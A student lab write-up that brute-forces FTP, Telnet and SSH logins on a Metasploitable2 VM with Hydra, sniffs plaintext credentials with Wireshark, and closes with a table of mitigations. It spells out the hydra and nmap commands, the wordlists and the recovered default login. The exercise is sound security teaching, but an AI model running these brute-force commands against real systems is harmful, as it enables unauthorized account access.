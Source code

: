 

# 💻 Labwork 1: Brute Force and Sniffing

---
## 🎯 Objectives

- Understand how brute-force attacks work on common network services (FTP, Telnet, SSH).
- Practice using tools like Hydra for password attacks.
- Learn how to use Wireshark to analyze network traffic.
- Identify insecure protocols that transmit data in plaintext.
- Propose secure alternatives and mitigation strategies.

## 🧰 Tools Used
- **Hydra** – for performing brute force attacks  
- **Wireshark** – for capturing and analyzing network traffic  
- **Kali Linux** – used as the attacker machine  
- **Metasploitable2** – vulnerable virtual machine  
- **FTP, Telnet, SSH** – services used for login and analysis  

---

## 📍 Target IP Enumeration


Run the following command on **Kali Linux** to find the Metasploitable2 IP:

      netdiscover
or:

      nmap -sn 192.168.154.0/24
or:

Use this command on Metasploitable2:

      ifconfig


# 1. Enumeration of Usernames🥐

Initial usernames used for brute force attacks were manually prepared in a file usernames.txt:
1.1 Prepare a text file with potential usernames:

    vim username.txt

- msfadmin
- user
- admin
- root
- test
- guest
  

1.2 Prepare a text file with potential passwords:

      vim password.txt

- msfadmin
- user
- admin
- root
- test
- guest

![Screenshot](https://github.com/L-Azymm/Labwork-1/blob/Image/Screenshot%202025-04-08%20122646.png?raw=true)


# 2. Brute Force Attacks🥖

**2.1 FTP**
    - Tool: Hydra
    - Command Used:
        
          hydra -L usernames.txt -P passwords.txt ftp://192.168.154.133
![Screenshot](https://github.com/L-Azymm/Labwork-1/blob/Image/Screenshot%202025-04-08%20122731.png?raw=true)

Result: Successful login found – msfadmin:msfadmin

---

**2.2 Telnet**
    - Tool: Hydra
    - Command Used:
       
        hydra -l msfadmin -P passwords.txt telnet://192.168.154.133

Result: Successful login – msfadmin:msfadmin

---

**2.3 SSH**
    - Tool: Hydra
    - Command Used:
        
        hydra -L usernames.txt -P passwords.txt ssh://192.168.154.133

Problem: Hydra (or the SSH client it's using) doesn't support the older key exchange algorithms used by the Meta2 machine, which is very outdated



# 3. Sniffing Network Traffic🍖

**3.1 Start Wireshark on Kali**

a) Open Wireshark

b) Select the active network interface (e.g., eth0 or ens33).

c) Start capturing

---

**3.2 FTP Login Traffic Analysis**

a) Connect using:

    ftp 192.168.154.133

b) Login with: msfadmin:msfadmin

c) In Wireshark, use filter:

    ftp 

---
**3.3 Telnet Login Traffic Analysis**

a) Connect using 

    telnet 192.168.154.133

b) Login with: msfadmin:msfadmin

c) In Wireshark, use filter:

    telnet



# 4.Problems Encountered🍕

| Protocol | Problem | Solution |
|----------|---------|----------|
|FTP	   |None	 |N/A
|Telnet|	Service was off initially	|Enabled Telnet on Metasploitable2
|SSH	|Hydra connection failed due to key mismatch	|

# 5.Mitigation Strategies🍥

| Protocol | Vulnerability | Secure Alternative	| Why it’s better|
|-----------|-------------|---------------------|---------------|
|FTP	|Sends credentials in plaintext	|SFT2P / FTPS|	Encrypts file transfer data and credentials
|Telnet|	Transmits all in plaintext|	SSH	|SSH encrypts communication
|SSH	|Still brute-forceable	|Use key-based login, strong passwords	|Prevents brute force access

# ✅ Summary
- FTP and Telnet are insecure protocols that transmit credentials in plaintext.
- Hydra can easily brute-force weak credentials.
- SSH is secure but can still be targeted using brute-force unless hardened.
- Use tools like Wireshark to confirm data security over the network.
- Always replace insecure services with encrypted alternatives like SSH or FTPS.
- Apply proper access control, firewalls, and monitoring to reduce attack surfaces.

